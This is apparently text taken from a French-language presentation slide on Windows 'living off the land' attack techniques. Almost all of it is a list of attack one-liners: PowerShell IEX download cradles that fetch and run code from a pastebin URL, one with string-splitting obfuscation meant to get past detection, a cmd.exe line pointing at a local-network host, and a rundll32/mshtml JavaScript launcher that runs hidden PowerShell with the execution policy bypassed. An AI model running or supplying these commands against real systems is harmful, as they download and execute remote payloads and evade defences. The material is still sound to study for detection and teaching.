

VBS avec cmd.exe
copy%appdata%&&echo2>>%appdata%&&%appdata% start http://192.168.56.1/VBscript.php

cmd.Exe
%COMSPEC%  /b /c  calc

powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.
WebClient).DownloadString('https://pastebin.com/raw/4f645CDG')
# LIVING OFF THE LAND
[void][System.Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');
[Microsoft.VisualBasic.Interaction]::CallByName((New-Object Net.WebClient),
'D$x$ownloadStr$x$ing'.replace('$x$', ''),[Microsoft.VisualBasic.CallType]::
Method,'https://paste$x$bin.com/raw/4f645CDG'.replace('$x$', '')) | IEX;
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();r=
new%20ActiveXObject("WScript.Shell").run("powershell -WindowStyle hidden
-nologo -noprofile -ExecutionPolicy Bypass IEX (New-Object System.Net.
WebClient).DownloadFile('https://secure.eicar.org/eicar.com.txt', '..\\eicar.exe')
;&cmd /c notepad ..\\eicar.exe",0,true);